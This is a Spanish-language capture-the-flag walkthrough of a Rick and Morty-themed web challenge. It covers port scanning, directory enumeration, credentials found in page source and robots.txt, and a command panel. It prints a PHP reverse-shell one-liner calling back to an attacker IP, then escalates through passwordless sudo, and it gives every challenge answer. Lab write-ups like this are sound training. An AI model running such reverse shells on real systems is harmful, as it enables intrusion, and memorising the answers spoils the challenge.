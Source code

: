 
![](https://i.imgur.com/o9pyhyU.jpg)  

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

## Preguntas a responder: 

-----

What is the first ingredient that Rick needs?  


What is the second ingredient in Rick’s potion?  


What is the last and final ingredient?  

-----

Empezamos con un mapeo de todos los puertos por nmap:

```bash
❯ nmap -p- --min-rate 5000 -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:34 CEST
Nmap scan report for 10.10.142.14
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.16 seconds
```

Ahora hacemos un escaneo mas completo a los puertos encontrados:

```bash
❯ nmap -p22,80 -sCV -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:36 CEST
Nmap scan report for 10.10.142.14
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9:f6:10:24:1d:cf:07:a4:3c:1f:e3:06:7f:f4:64:8b (RSA)
|   256 b0:9d:20:7f:58:4f:ce:b5:cc:e0:8f:e2:60:05:65:3a (ECDSA)
|_  256 3d:53:81:7c:09:64:65:82:af:6a:1d:16:8c:52:02:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

con todo esto vamos a empezar por el servicio http y la web que aloja en el apache.

en el codigo fuente de la web vemos este body:


``` html
<body> 
	<div class="container"> 
	<div class="jumbotron"></div> 
		<h1>Help Morty!</h1></br> 
		<p>Listen Morty... I need your help, I've turned myself into a pickle   again and this time I can't change back!</p>
		</br> <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br> 
		
		</div> 
		
		<!-- Note to self, remember username! Username: R1ckRul3s --> 

</body>
```

nos guardamos el username: R1ckRul3s

Intenté hacer un ataque de fuerza bruta con hydra al ssh pero el servicio no me dejaba por lo que continué centrándome en la web.

Buscamos el archivo robots.txt y enontramos esto:

**Wubbalubbadubdub**

hacemos una enumeración de directorios con gobuster, esta vez añadimos la flag -x para encontrar directorios con extensiones de archivo como php:

```bash
❯ gobuster dir -u http://10.10.142.14 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,json,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.142.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              xml,php,html,txt,json
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.142.14/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
Progress: 10490 / 1323360 (0.79%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 10496 / 1323360 (0.79%)
===============================================================
Finished
===============================================================
```

accedemos a la pagina login.php, me mostro una web de logueo, probé loguearme con el usuario R1ckRul3s y la pass: Wubbalubbadubdub y entre a este panel:

![Pasted image 20240514115345.png](PanelRick.png)

aqui podemos introducir comandos a una shell, hice un -ls -la y mostró varios archivos:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
aquí podemos obtener el primer ingrediente, con un **cat Sup3rS3cretPickl3Ingred.txt** no nos deja obtener el resultado así que usé el comando less y obtenemos el primer ingrediente:
```bash
less Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
 la primera pregunta queda respondida : 
 
 **What is the first ingredient that Rick needs?**
 
 Respuesta: **mr. meeseek hair**

después de esto intento hacer una reverse shell para un manejo mas cómodo:
tras unas pruebas consigo que me funcione con este one-liner rev: 

**php -r '$sock=fsockopen("10.9.251.231",1234);exec("/bin/bash <&3 >&3 2>&3");'**

y obtengo acceso:
```
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.142.14] 33970
whoami
www-data

```

hago un tratamiento de la tty y empiezo con una pequeña enumeración para ver que permisos de sudo tenemos y sorpresa:

```bash
www-data@ip-10-10-142-14:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-142-14:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-142-14:
    (ALL) NOPASSWD: ALL
```
tenemos permisos para todo.

vemos el archivo clue.txt que se muestra en el mismo directorio que el primer ingrediente y nos dice que sigamos buscando por el sistema.

En la carpeta de rick encontramos el segundo ingrediente:
```bash
www-data@ip-10-10-142-14:/home$ cd rick
www-data@ip-10-10-142-14:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019  .
drwxr-xr-x 4 root root 4096 Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
www-data@ip-10-10-142-14:/home/rick$ cat second\ ingredients 
1 jerry tear
www-data@ip-10-10-142-14:/home/rick$ 
```

**What is the second ingredient in Rick’s potion?**
Respuesta: **1 jerry tear**

ahora intenté entrar al directorio de root pero no me dejaba así que probé varios métodos 
```bash
www-data@ip-10-10-142-14:/$ cd root
bash: cd: root: Permission denied
www-data@ip-10-10-142-14:/$ sudo cd root
sudo: cd: command not found
www-data@ip-10-10-142-14:/$ ls root
ls: cannot open directory 'root': Permission denied
www-data@ip-10-10-142-14:/$ sudo ls root
3rd.txt  snap
www-data@ip-10-10-142-14:/$ 
www-data@ip-10-10-142-14:/$ sudo less root/3rd.txt
# y pude visualizar el tercer ingrediente

3rd ingredients: fleeb juice
```

**What is the last and final ingredient?**
Respuesta: **fleeb juice**

Con esto concluimos la maquina.